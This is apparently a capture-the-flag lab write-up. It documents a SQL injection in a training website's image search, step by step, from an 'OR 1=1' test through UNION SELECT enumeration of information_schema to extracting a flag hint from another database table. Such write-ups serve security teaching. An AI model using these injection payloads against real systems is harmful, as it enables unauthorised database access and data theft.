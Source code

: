 # 🖼️💉 Image Search SQL Injection (Secondary Database Exploitation)

> **OWASP Category:** A03:2021 – Injection  
> **Severity:** 🔴 Critical  
> **Difficulty:** 🟡 Medium

The website's image search functionality contains a SQL injection vulnerability that allows attackers to manipulate database queries. Unlike the member search, this targets a different database table (`Member_images.list_images`) and demonstrates how multiple injection points can exist within the same application, each potentially exposing different sensitive data.

🎯 **Double Exposure:** When one SQL injection leads to discovering another - multiple attack vectors in the same application!

---

## 🎯 Exploit Technique

### 🔧 Attack Evolution

#### 🥇 **Step 1 - Basic Injection Discovery**
```sql
-- Test basic injection in image search
Input: 1 OR 1=1

-- Result: Returns all users (4 different users)
-- Confirms SQL injection vulnerability exists in image search functionality
```

#### 🥈 **Step 2 - Database Schema Enumeration**
```sql
-- Discover all tables across databases
Input: 5 UNION SELECT table_name, table_schema FROM information_schema.tables

-- Result: Reveals multiple databases and tables
-- Identifies 'Member_images' database with 'list_images' table
```

#### 🥉 **Step 3 - Column Structure Analysis**
```sql
-- Enumerate columns in the discovered table
Input: 5 UNION SELECT column_name, table_name FROM information_schema.columns

-- Result: Reveals 'list_images' table has 3 fields:
-- - title
-- - comment  
-- - url
```

#### 🏆 **Step 4 - Cross-Database Data Extraction**
```sql
-- Extract data from different database table
Input: 5 UNION SELECT title, comment FROM Member_images.list_images

-- Result:
-- Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
-- Comment: Hack me ?
```
